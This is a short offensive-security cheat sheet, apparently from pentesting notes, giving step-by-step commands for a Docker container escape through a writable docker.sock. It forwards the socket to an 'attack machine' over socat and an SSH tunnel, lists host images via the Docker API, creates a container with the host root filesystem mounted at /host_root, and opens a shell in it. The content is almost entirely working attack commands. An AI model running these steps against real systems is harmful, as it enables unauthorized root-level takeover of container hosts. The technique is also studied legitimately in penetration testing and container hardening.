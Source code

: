 # Docker

# Docker Escape

## Writable docker.sock

- Forward docker.sock to attack machine tcp and sock

```bash
# In container:
# use socat to forward local port to docker socket (can use any other port forward tool)
socat -d -d -d -lf socat.log UNIX-LISTEN:/run/docker.sock,reuseaddr,fork TCP:127.0.0.1:8080

#On attack machine
# forward port 8080 over ssh
ssh -L 8080:localhost:8080 user@ip -p 2222
# use socat to create custom socket
socat -d -d -d -lf socat.log UNIX-LISTEN:./docker.sock,reuseaddr,fork TCP:localhost:8080

```

- List host images:

```
curl -XGET <http://localhost:8080/images/json>
```

- Create a container with host / mounted on /host_root

```
curl -XPOST -H "Content-Type: application/json" -d '{"Image":"sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' <http://localhost:8080/containers/create>

```

- List containers

```
curl -XGET <http://localhost:8080/containers/json>

```

- Use docker client to get a shell into our new container

```
docker -H unix://./docker.sock exec -it jovial_bassi /bin/bash

```